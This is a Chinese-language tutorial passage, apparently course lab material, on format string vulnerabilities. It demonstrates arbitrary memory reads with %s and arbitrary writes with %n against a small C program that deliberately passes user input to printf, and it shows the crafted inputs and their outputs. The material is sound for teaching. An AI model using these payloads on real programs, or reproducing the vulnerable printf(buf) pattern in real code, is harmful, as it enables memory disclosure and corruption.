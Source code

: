**通过格式化串泄露任意数据**

任意泄露的原理是通过结合`%s`表示符以及指针完成，下面也进行简单示例，首先可以通过特定的串来找到输入数据与参数栈的偏移

```
$ ./main
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAffd2373c.40.80484cd.0.0.0.41414141.252e7825.78252e78.2e78252e.252e7825
3��%
```
如上，我们发现第7个%x打印出了`41414141`，也就是我们输入的`AAAA`，这样一来便能计算出参数栈与输入之间相差的偏移；我们可以使用`$`标识符来进行专门指定，如下

```
$ ./main
AAAA%7$x
AAAA41414141
```

这里的`%7$x`就是指定打印第7个%x对应的栈上数据。有了这个能力后，我们把`AAAA`先替换成全局变量`var`的地址。地址的查询可以通过`readelf`或者静态分析工具完成，实验环境这里使用的地址为 `0x0804a024`

```
$ echo -e '\x24\xa0\x04\x08%7$x' | ./main
$804a024
```

可以看到，`%7$x`现在输出的恰恰是我们布置的`0x804a024`；现在，只需要将`%7$x`修改为`%7$s`，即`printf`将值`0x804a024`当作一个字符串指针去访问，我们便可以读到该地址处变量，也就是`var`的值了

```
$ echo -e '\x24\xa0\x04\x08%7$s' | ./main | hexdump
0000000 a024 0804 1234 050a ff93 a589 f7de 5808
```
如上，变量`0x1234`的值便以字符串的形式被打印出来。（由于`%s`需要被`\x00`截断，后面同时也输出了一些垃圾数据

**通过格式化串改写任意数据**

如课上所述，可以通过特殊的`%n`表示符来完成对任意地址的修改，其做法则只需要将上面任意写的`%s`修改为`%n`。我们可以首先给程序加入一些打印来观察我们的修改效果

```c
#include <stdio.h>
#include <unistd.h>
int var = 0x1234;
int main()
{
    char buf[64];
    read(0, buf, 64);
    printf(buf);
    printf("var = %d\n", var);
    return 0;
}
```

接着直接如下修改

```
$ echo -e '\x24\xa0\x04\x08%7$n' | ./main
$�
U���U��var = 4
```
可以看到打印的结果，`var`变量被修改成了`4`，而不是原来的`0x1234`了
